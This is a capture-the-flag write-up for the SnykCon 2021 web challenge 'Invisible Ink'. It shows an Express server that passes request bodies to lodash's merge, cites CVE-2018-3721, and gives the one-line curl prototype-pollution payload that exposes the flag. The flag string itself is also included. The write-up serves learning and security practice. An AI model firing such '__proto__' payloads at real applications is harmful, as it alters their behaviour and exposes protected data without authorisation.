



# SnykCon-CTF-2021
* Category: Web 
* Name: Invisible Ink
* Level: None
* Description: None
## Solution
* Overview the challenge provided us a `Request` and `Response` and `POST` method
 
*  I used curl command with `POST` method and seems nothing =))))
 
* Now i read `index.js` file 
```c
'use strict';
const fs = require('fs');
const express = require('express');
const app = express();
const bodyParser = require('body-parser');
const _ = require('lodash');
const options = {};
const flag = fs.readFileSync('./flag', 'utf-8').trim();
const docHtml = fs.readFileSync('./index.html', 'utf-8');

app.use(bodyParser.json());

app.get('/', (req, res) => {
    res.send(docHtml);
});

app.post('/echo', (reg, res) => {
    const out = {
        userID: req.headers['x-forwarded-for'] || req.connection.remoteAddress, time:
            Date.now()
    };

    _.merge(out, req.body);
    if(options.flag){
        out.flag = flag;
    }else {
        out.flag = 'disabled';
    }
    res.json(out);
    process.exit(0);
});
app.listen(8000);
```
* I found two line of code `const _ = require('lodash');`,`_.merge(out, req.body);`,`lodash` is a lib of javascript you can read document about it at `https://lodash.com/` :))
* Then i found some exploit ways involved lodash and i found `CVE-2018-3721`. I realized the challenge have a problem about `Prototype Pollution`
* <https://nvd.nist.gov/vuln/detail/CVE-2018-3721>
* I used `curl`command again and finally, i found a flag ^_^ 
```c
curl -H "Content-Type: application/json" -X POST http://35.211.53.53:8000/echo -d  '{"message": "ping", "__proto__": {"flag":true}}'
```
 
* FLAG `SNYK{6a6a6fff87f3cfdca056a077804838d4e87f25f6a11e09627062c06f142b10dd}`
